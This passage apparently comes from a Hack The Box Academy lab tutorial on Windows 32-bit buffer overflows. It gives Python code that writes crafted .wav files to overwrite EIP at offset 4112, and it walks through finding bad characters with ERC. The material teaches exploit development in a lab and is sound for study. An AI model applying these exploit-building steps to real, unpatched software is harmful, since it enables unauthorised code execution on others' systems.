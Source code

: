 ```python
def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload)

eip_control()
```


# Identifying Bad Characters

To identify bad characters, we have to send all characters after filling the `EIP` address, which is after `4112` + `4` bytes. We then check whether any of the characters got removed by the program or if our input got truncated prematurely after a specific character.

To do this, we would need two files:

1. A `.wav` file with all characters to load into the program
2. A `.bin` file to compare with our input in memory

We can use `ERC` to generate the `.bin` file and generate a list of all characters to create our `.wav` file. To do so, we can use the `ERC --bytearray` command:

![ERC Byte Array](https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry.jpg)

This also creates two files on our Desktop:

- `ByteArray_1.txt`: Which contains the string of all characters we can use in our python exploit
- `ByteArray_1.bin`: Which we can use with `ERC` later to compare with our input in memory
## Updating our exploit

The next step would be to generate a `.wav` file with the characters string generated by `ERC`. We will once again write a new function `bad_chars()`, and use a similar code to the `eip_control()` function, but will use the characters under `C#` in `ByteArray_1.txt`. We will create a new list of bytes `all_chars = bytes([])`, and paste the characters between the brackets. We will then write to `chars.wav` the same `payload` from `eip_control()`, and add after it `all_chars`. The final function would look as follows:


```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```
